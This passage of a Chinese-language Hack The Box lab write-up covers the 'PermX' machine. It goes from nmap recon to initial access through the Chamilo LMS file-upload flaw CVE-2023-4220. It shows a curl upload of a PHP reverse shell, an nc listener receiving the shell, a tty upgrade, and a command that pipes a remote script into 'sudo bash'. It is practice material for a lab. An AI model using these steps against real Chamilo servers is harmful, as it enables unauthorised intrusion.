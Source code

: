 
## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
```

## 攻击路径规划·漏洞分析

常规简单靶机，22端口SSH的版本较新，优先度放低。先看80端口的Web。


## 80端口

80端口是个网页`permx.htb`，而根据脚本的扫描结果，有个`lms`子域，先看这个吧。


### 子域：lms

根据`http://lms.permx.htb/robots.txt`，访问`documentation/`发现这是`Chamilo 1.11`。接着根据页面上方的`Changelog`标签页发现具体版本号：`Chamilo 1.11.24`。

Google it，发现： <https://www.mageni.net/vulnerability/chamilo-lms-111x-11124-multiple-vulnerabilities-126550>


## Initial Access

### PoC (CVE-2023-4220)

> <https://starlabs.sg/advisories/23/23-4220/>

根据上面文章的PoC，上传文件然后访问`http://lms.permx.htb//main/inc/lib/javascript/bigupload/files/reverse-shell.php`，获得`www-data`用户的反弹shell。然后升级tty：
```bash
┌──(kali㉿kalik)-[~/HTB/PermX]
└─$ curl -F 'bigUploadFile=@reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.                                              

┌──(kali㉿kalik)-[~/HTB/PermX]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.23] 33388
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 03:04:24 up 5 min,  0 users,  load average: 0.92, 0.70, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@permx:/$ ^Z
zsh: suspended  nc -lvnp 1234
```
